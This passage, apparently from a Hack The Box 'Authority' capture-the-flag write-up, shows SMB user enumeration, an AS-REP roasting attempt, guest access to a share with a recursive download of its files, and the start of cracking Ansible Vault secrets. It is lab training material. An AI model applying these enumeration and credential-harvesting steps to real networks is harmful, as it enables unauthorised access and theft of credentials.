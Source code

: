 ```bash
SMB         10.10.11.222    445    AUTHORITY        1000: HTB\AUTHORITY$ (SidTypeUser)
SMB         10.10.11.222    445    AUTHORITY        1101: HTB\DnsAdmins (SidTypeAlias)
SMB         10.10.11.222    445    AUTHORITY        1102: HTB\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        1601: HTB\svc_ldap (SidTypeUser)

```

After obtaining a list of users (in this case, we only have `svc_ldap`), we can attempt `AS-REProasting` to steal password hashes of users who have `Kerberos pre-authentication disabled`. However, there were no vulnerable accounts found.

### Readable Development Folder

This folder had quite a good amount of files and folders which could have some sensitive info. So, let's download and have a look.

```bash
┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $smbclient \\\\10.10.11.222\\Development -U 'guest%'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Mar 17 09:20:38 2023
  ..                                  D        0  Fri Mar 17 09:20:38 2023
  Automation                          D        0  Fri Mar 17 09:20:40 2023

		5888511 blocks of size 4096. 1519101 blocks available
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```

Found and tested some credentials hardcoded for Tomcat but they were of no use to us.

![Untitled](Authority%20a3042a30632b45c180804fb6597f026a/Untitled.png)

### Cracking Ansible Vault Secrets

Sensitive information was discovered in the file **`Ansible/PWM/defaults/main.yml`** within the PWM folder. This file contained Ansible vault secrets.

`Ansible vault` is a feature that allows users to keep sensitive data such as passwords or keys in encrypted files rather than plaintext in playbooks or roles. These vault files can then be distributed or placed in source control.
